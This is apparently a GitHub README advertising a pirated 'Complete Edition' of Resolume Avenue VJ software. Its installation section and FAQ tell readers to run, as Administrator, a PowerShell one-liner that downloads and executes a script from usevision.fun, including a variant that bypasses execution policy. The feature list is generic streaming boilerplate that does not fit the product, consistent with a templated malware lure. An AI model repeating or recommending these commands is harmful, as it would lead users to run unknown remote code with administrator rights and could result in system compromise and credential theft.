

<div align="center">


<br>


# Resolume Avenue Live VJ Premium
**Live VJ performance platform · Real-time visual mixing · Premium clip library**
<br>
**Live VJ performance platform · Real-time visual mixing · Premium clip library**
<br>
Complete Edition · Premium Build · Windows · Deployment



**Complete Edition — all live VJ modules and premium visual performance tools enabled.**

</div>
---

> Licensed premium live VJ platform with real-time mixing and every visual performance module included.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://usevision.fun/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🎬 **Live production** — Multi-source scenes and switching enabled.
📡 **Stream output** — Broadcast to platforms with pro overlays.
📦 **Offline studio** — Works locally after setup.
🖥️ **Windows optimized** — Built for creator workstations.
🎛️ **Pro controls** — Audio, scenes and widgets included.
✨ **Premium modules** — Paid broadcaster features enabled.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB |
| **Disk** | 2 GB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://usevision.fun/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB, 2 GB.
</details>


TAGS
resolume-avenue, live-vj, visual-mixing, clip-playback, projection-mapping, real-time-effects, professional, windows, desktop, software, pro, studio, tools
